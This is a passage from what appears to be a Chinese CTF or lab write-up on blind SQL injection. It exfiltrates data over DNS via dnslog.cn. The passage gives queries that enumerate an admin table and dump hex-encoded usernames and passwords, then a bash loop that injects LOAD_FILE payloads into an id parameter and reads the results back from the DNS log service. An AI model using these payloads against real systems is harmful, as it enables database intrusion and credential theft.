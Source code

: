 ```sql
-- 查询字段命令
select hex(group_concat(column_name)) from information_schema.columns where table_schema='maoshe' and table_name='admin';

-- id,username,password
```

**3. 查询账户密码**

1. 这里同时查询两个字段，这里使用 `concat` 而不是 `group_concat`
2. `hex()` 16禁止编码可能会操作 dnslog 的长度限制导致无法拿到结果。

```sql
-- 查询账户密码
select hex(concat(username,'___',password)) from maoshe.admin limit 1,1 ;
-- => admin123___123admin
-- => test___test123
```

**变态啊， 居然还不行** ， 这题 **刁钻， 太刁钻了**

> 是的，没错。 **不知道什么原因，我只执行了 2 次** 。 这就是一切 **惨案** 的源头。


### 0x02.3.1 蒸汽时代，甩开膀子干

使用 **Chrome 开发者工具** 分析了一下 DNSLOG 的请求规则。 升级了工具。

1. 每次请求申请一个域名是因为受过的伤太多。
2. 要 `sleep 1` 是怕被封。

```bash
#!/bin/bash
#

for i in $(seq 0 33)
do
{
    # 生成 dnslog 域名
    md5sha=$(date | md5)
    SESSION="--cookie PHPSESSID=$md5sha"
    DOMAIN=$(curl -s ${SESSION} http://dnslog.cn/getdomain.php )

    DNSLOG=".${i}.${DOMAIN}"

    SQL=" YOUR SQL STATMENT "

    curl ${SESSION} -sL  "http://vulhub.example.com:8022/dns/?id=1 AND LOAD_FILE(CONCAT('//',( ${SQL}  ),'${DNSLOG}/1.txt')) " > /dev/null

    # 获取结果
    curl -sL ${SESSION}  http://dnslog.cn/getrecords.php  | jq '.[0][0]'

    sleep 1
}
done
```
